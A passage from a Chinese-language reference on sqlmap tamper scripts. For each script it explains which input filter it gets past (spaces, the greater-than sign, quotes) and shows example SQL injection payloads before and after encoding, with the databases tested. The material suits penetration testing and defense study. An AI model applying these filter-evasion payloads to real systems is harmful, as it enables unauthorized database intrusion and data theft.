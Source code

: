 作用：绕过过滤‘=’ 替换空格字符（”），（’ – ‘）后跟一个破折号注释，一个随机字符串和一个新行（’ n’）

```
Example: ('1 AND 9227=9227') '1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'

```

Tested against: * MSSQL * SQLite

案例一：http://wooyun.org/bugs/wooyun-2010-062878

## 脚本名：greatest.py

* * *

作用：绕过过滤’>’ ,用 GREATEST 替换大于号。

```
Example: ('1 AND A > B') '1 AND GREATEST(A,B+1)=A' Tested against: * MySQL 4, 5.0 and 5.5 * Oracle 10g * PostgreSQL 8.3, 8.4, 9.0 

```

## 脚本名：space2hash.py

* * *

作用：空格替换为#号 随机字符串 以及换行符

```
Example:

*   Input: 1 AND 9227=9227
*   Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227

```

Requirement:

*   MySQL Tested against:

*   MySQL 4.0, 5.0

参考:[法克的一篇文章](http://www.f4ck.org/article-2183-1.html)

## 脚本名：apostrophenullencode.py

* * *

作用：绕过过滤双引号，替换字符和双引号。

```
Example: tamper("1 AND '1'='1") '1 AND %00%271%00%27=%00%271'

```

Tested against:

*   MySQL 4, 5.0 and 5.5
